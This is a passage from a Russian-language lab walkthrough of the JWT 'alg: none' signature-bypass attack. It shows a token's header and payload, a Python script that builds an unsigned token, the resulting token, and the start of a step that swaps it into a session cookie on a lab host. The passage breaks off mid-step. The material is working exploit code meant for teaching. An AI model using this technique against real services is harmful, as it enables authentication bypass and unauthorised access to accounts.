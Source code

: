 - Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
- Payload
```json
{
  "username": "user",
  "is_admin": false
}
```

### Шаг 2
 
Меняем в Header алгоритм подписи на none:
```json
{
  "typ": "JWT",
  "alg": "none"
}
```

### Шаг 3
 
Генерируем новый JWT токен, у которого третья часть (Signature) пустая. Для этого можно использовать следующий код для Python 3

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print("%s.%s." % (
        b64urlencode("{\"typ\":\"JWT\",\"alg\":\"none\"}"), # Header with none
        b64urlencode("{\"username\":\"user\",\"is_admin\":false}"), # Payload
    )
)
```

Полученный JWT токен: 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.
```

### Шаг 4

Заходим на http://jwt_insecure.lab/index_3 и меняем в заголовке запроса значение session cookie на сгенерированный токен.

Исходный запрос
